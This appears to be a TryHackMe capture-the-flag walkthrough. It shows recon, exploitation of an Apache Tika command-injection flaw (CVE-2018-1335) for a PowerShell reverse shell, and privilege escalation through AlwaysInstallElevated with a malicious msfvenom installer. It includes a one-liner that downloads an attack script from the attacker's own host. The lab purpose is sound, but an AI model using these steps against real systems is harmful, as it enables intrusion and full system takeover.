 # CyberLens - TryHackMe 

---

This is a writeup for the easy CTF "CyberLens" on TryHackMe. If you prefer video, I also have [a video walkthrough of this room](https://youtu.be/q6mFIJwlqn4) on YouTube! This room is located at https://tryhackme.com/r/room/cyberlensp6 and is a free room. I am documenting the process I used to find all information in this writeup **WITHOUT** including any flags, in the spirit of the game. However, following this process exactly should result in a full compromise of the target system.

Finally, this room is easily solved using Metasploit, and this is far simpler and likely the best way to solve. However, as this is intended to be an OSCP-like lab, I will be presenting this writeup without the use of Metasploit.

---

## Recon, Scanning, and Enumeration

My first step was to export the box's IP address to a variable that I could use easily for the rest of the engagement. Next I pinged the box to ensure that it was alive and ready for enumeration:

![](./screenshots/ping.png)

Next I ran a quick `nmap` scan to see which ports were responding on the host: 

![](./screenshots/nmapquick.png)

After that I wanted to further enumerate the service versions and run some basic `nmap` scripts against these ports:

![](./screenshots/nmapdetails.png)

There is another important port open on this machine, but we will discover that through further enumeration later, so at this point we will not need to run a full ports scan.

We see that we have an Apache HTTP server running on port 80, as well as RPC, SMB, and RDP, services that are commonly seen on Windows servers. The most actionable of these is HTTP, so we'll pivot to enumerating the webpage next.

The web root hosts a "Welcome to CyberLens" homepage, with an interesting link to the "CyberLens Image Extractor:"

![](./screenshots/webroot.png)

This appears to be a file upload portal that will evaluate the metadata of the uploaded file:

![](./screenshots/extractor.png)

If we upload an arbitrary file and intercept the web request with Burp Suite, we can see that this upload functionality is making an OPTIONS request to cyberlens.thm (our hostname) at port 61777, and trying to make a PUT request for the file we are uploading:

![](./screenshots/options.png)

We can confirm that there is indeed a service running on port 61777, and interestingly it is running Apache Tika 1.17:

![](./screenshots/nmap61777.png)

## Initial Access

A quick Google search shows that there is a command injection vulnerability in Apache Tika. When your first result on an exploit search is from Rapid7, there's a good chance that there's a Metasploit module for the exploit you are researching, and that is the case for us. We won't use it for this writeup, but if you are only interested in the quick points, this exploit is very point-and-click. 

Note also that there is [an article from Rhino Security Labs](https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/), written by the researcher, David Yesland, and discussing in depth the discovery and mechanics of the vulnerability. This is worth a read.

Finally, we can see that exploit code has been posted to Github, which is an OSCP-friendly route, if you're trying to practice saving your Metasploit usage:

![](./screenshots/googletika.png)

I ended up using the exploit from [the Rhino Security Labs github](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2018-1335), written by David Yesland and adapted to python3 by Tyler Ramsbey (the creator of this lab). I had a couple of minor issues with the current version of the script, so I have [a forked version](https://github.com/bradyjmcl/Rhino-Sec-CVEs/blob/bradyjmcl-patch-1/CVE-2018-1335/CVE-2018-1335.py) that I will use for this demonstration.

After reviewing the script, we can see that it takes three arguments - the IP address, the Tika port, and the command that we want to run. Since our command will be multiple arguments, we will need to wrap it in quotes. I will be using the "PowerShell #3 (Base64)" payload from revshells.com:

![](./screenshots/exploit.png)

## Privilege Escalation

Now that we have access to a user account, it's time to escalate our privileges to system-level. A fan-favorite for enumerating privilege escalation vectors is WinPEAS, but since this wasn't running properly in my PowerShell reverse shell, I used PowerUp.ps1, which we can upload with a method of our choice (I used `powershell iwr http://<my IP>/powerup.ps1 -Outfile C:\users\public\powerup.ps1` to download from a python3 HTTP server, hosted using `python3 -m http.server 80`), and run on the host. We have to first load the PowerShell module, then run the Invoke-AllChecks function:

![](./screenshots/powerup.png)

Here, we can see that the AlwaysInstallElevated registry keys are enabled. We could check these manually, if we needed confirmation that the script is working properly:

![](./screenshots/regquery.png)

With these keys enabled, all users are able to run Windows Installer Files (.msi) with elevated privileges. We can use `msfvenom` to create a malicious installer file, which we can use to run arbitrary commands:

![](./screenshots/msfvenom.png)

Since I already know that this PowerShell reverse shell payload works, I'm just going to re-use it to get an elevated reverse shell. You could also use the windows/exec commands to add users to groups or add privileges to our current user, but we can just do those with our elevated shell if we need to.

Now that we have our malicious installer file generated, it's just a matter of uploading this file and running it. We can use `msiexec` with the `/quiet` flag to specify that no user interaction is required, `/qn` to specify that there is no UI during the "installation," and `/i` to specify normal "installation." With these flags, we should be able to get a system-level shell:

![](./screenshots/rooted.png)

Thanks to TeneBrae93 for the creation of this challenge!
